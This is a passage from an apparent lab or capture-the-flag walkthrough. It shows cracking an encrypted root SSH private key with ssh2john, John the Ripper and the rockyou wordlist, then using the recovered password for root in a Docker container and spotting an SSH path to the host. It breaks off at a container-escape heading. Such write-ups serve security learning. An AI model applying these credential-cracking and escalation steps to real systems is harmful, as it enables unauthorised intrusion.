 ![SSH Keys](images/Pasted%20image%2020251013021121.png)

**Discovery**: Encrypted root SSH private key.

### Key Cracking

**Convert to John format**:

```bash
./python /usr/share/john/ssh2john.py id_rsa > hash
```

**Crack password**:

```bash
john -w:/usr/share/wordlists/rockyou.txt hash
```

**Password**: `choclate93`

### Root Access in Container

```bash
su root
# Password: choclate93
```

**Success**: Root access within Docker container.

### SSH Key Analysis

```bash
root@e71b67461f6c:~/.ssh# cat known_hosts
root@e71b67461f6c:~/.ssh# cat id_rsa.pub
```

**Discovery**: Admin user can SSH to host machine (192.168.150.1).

## Container Escape
